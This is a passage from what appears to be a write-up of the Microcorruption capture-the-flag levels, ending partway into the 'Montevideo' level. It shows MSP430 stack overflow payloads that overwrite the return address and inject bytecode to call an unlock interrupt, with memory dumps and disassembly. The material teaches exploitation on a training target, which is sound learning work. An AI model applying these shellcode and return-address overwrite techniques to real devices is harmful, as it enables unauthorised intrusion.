Now, we need to capture the return address to be some part of our prompt where we will inject the bytecode for interrupt call. The address where our prompt will start is at `0x3bf4`

```
3be0: 0000 4645 0100 4645 0300 ba45 0000 0a00   ..FE..FE...E....
3bf0: 0000 2a45 1234 5678 90aa aaaa aaaa aaaa   ..*E.4Vx........
3c00: aaaa aaaa 5844 aaaa aaaa aaaa aaaa aaaa   ....XD..........
3c10: aaaa aaaa aa00 0000 0000 0000 0000 0000   ................
3c20: 0000 0000 0000 0000 0000 0000 0000 0000   ................
```

Let's create our payload. We can just insert instructions at the start of the prompt and put the return address in little endian format to where `sp` is pointing at. The payload will look like this:

```
30127f00b0123245AAAAAAAAAAAAAAAAf43b
```

Here is a dissection of this payload:

```
    ┌──────────────────────────────────────────────┐
    │                                              │
    │                                              │
    │ ┌────────────────────────────────────────┐   │
    │ │                                        │   │
    ▼ ▼                                        │   │
  0x3b34: 3012 7f00 b012 3245 AAAAAAAAAAAAAAAA f4 3b
          ───────── ───────── ──────────────── ── ──
          push      call      padding          stack
          0x7f      <INT>                      pointer
```

## Montevideo
This time, the input string is copied from one portion of the memory to another. The issue is that we still can overflow the stack to get to the return address. sp on `login` return points to `0x43f0`, and with long enough prompt we can still set it:

```
43f0: aaaa aaaa aaaa aaaa aaaa aaaa aaaa [aaaa] <- sp points here   ................
4400: aaaa aaaa aaaa aaaa aaaa aaaa 005a  3f40                     .............Z?@
```

So, let's try out our unlock interrupt payload:

```
30127f00b0123245AAAAAAAAAAAAAAAAAAf043
```

When we do this, we observe that the whole string is not being copied to the destination memory. What's wrong there?

```
4514:  3e40 0024      mov	#0x2400, r14
4518:  0f41           mov	sp, r15
451a:  b012 dc45      call	#0x45dc <strcpy> <- HERE!
451e:  3d40 6400      mov	#0x64, r13
4522:  0e43           clr	r14
4524:  3f40 0024      mov	#0x2400, r15
4528:  b012 f045      call	#0x45f0 <memset>
```
